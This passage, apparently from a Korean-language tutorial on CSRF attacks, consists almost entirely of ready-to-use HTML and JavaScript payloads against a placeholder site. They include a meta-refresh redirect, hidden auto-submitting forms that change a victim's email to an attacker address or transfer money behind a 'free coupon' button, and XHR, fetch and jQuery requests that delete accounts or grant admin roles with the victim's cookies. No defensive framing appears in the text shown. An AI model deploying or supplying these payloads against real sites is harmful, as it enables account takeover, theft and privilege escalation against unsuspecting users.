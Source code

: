 ```html
```

#### 2.1.3. 메타 태그를 이용한 자동 리다이렉트
```html
<meta http-equiv="refresh" content="0; url=http://target.com/dangerous_action?confirm=yes">
```

### 2.2. POST 기반 CSRF 공격

#### 2.2.1. 자동 폼 제출
```html
<!-- 기본 자동 제출 폼 -->
<form name="csrf_form" action="http://target.com/change_email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="hidden" name="confirm" value="yes">
</form>
<script>
    document.csrf_form.submit();
</script>

<!-- 사용자 상호작용 후 제출 -->
<form id="hidden_form" action="http://target.com/transfer_money" method="POST">
    <input type="hidden" name="to_account" value="attacker_account">
    <input type="hidden" name="amount" value="10000">
</form>
<button onclick="document.getElementById('hidden_form').submit()">
    무료 쿠폰 받기!
</button>
```

#### 2.2.2. AJAX를 이용한 백그라운드 공격
```javascript
// XMLHttpRequest를 이용한 POST 요청
function csrfAttack() {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://target.com/api/delete_account', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('confirm=yes&reason=user_request');
}

// Fetch API를 이용한 공격
fetch('http://target.com/api/change_role', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        user_id: 123,
        new_role: 'admin'
    }),
    credentials: 'include'  // 쿠키 포함
});

// jQuery를 이용한 공격
$.post('http://target.com/update_profile', {
    username: 'attacker',
    email: 'attacker@evil.com',
    role: 'admin'
});
```
